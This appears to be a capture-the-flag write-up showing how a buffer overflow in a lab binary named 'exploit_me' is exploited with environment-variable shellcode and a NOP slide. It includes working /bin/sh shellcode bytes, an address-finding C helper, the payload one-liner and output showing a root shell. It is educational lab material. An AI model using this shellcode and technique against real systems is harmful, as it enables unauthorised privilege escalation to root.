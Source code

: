 # NOPSlide to Shellcode execution

Branching off from [Writeup 1, part 6](../../writeup1/part6.md), instead of using a [ret2libc attack](https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3) we could use a [shellcode injection](https://en.wikipedia.org/wiki/Shellcode) from the same buffer overflow. For this to happen, we'll need to do few things, first creating the **SHELLCODE**.

```shell
  $> export SHELLCODE=$'\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'
```

> This shellcode was found [here](https://0xrick.github.io/binary-exploitation/bof5/) but more working ones can be found on [shell-storm](http://shell-storm.org/shellcode/) or [exploit-db](https://www.exploit-db.com/).

Then, we'll need to find where this environment variable is stored in memory. For that nothing really difficult...

```C
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char** argv)
{
  printf("env address at %p\n", getenv(argv[1]));
  return (0);
}
```

> Simply prints the address of the env variable you gives as first parameter.

Now we retrieve the `SHELLCODE` address, convert it to little-endian and inject it in `exploit_me`.

```shell
  $> gcc -o printAddress
  $> ./printAddress SHELLCODE
  env address at 0xbffff864
  $> ./exploit_me `python -c 'print("\x90"*140 + "\xbf\xff\xf8\x64"[::-1])'`
  # id
  uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
  # whoami
  root
```

> `\x90` is the OPCode for the [NOP](https://en.wikipedia.org/wiki/NOP_(code)#:~:text=In%20computer%20science%2C%20a%20NOP,protocol%20command%20that%20does%20nothing.) assembly instruction. It does literally nothing, simply telling to go to the next instruction. Chaining `NOP` up until some arbitrary address is called a [NOPSlide](https://en.wikipedia.org/wiki/NOP_slide).

One more time, we are root!

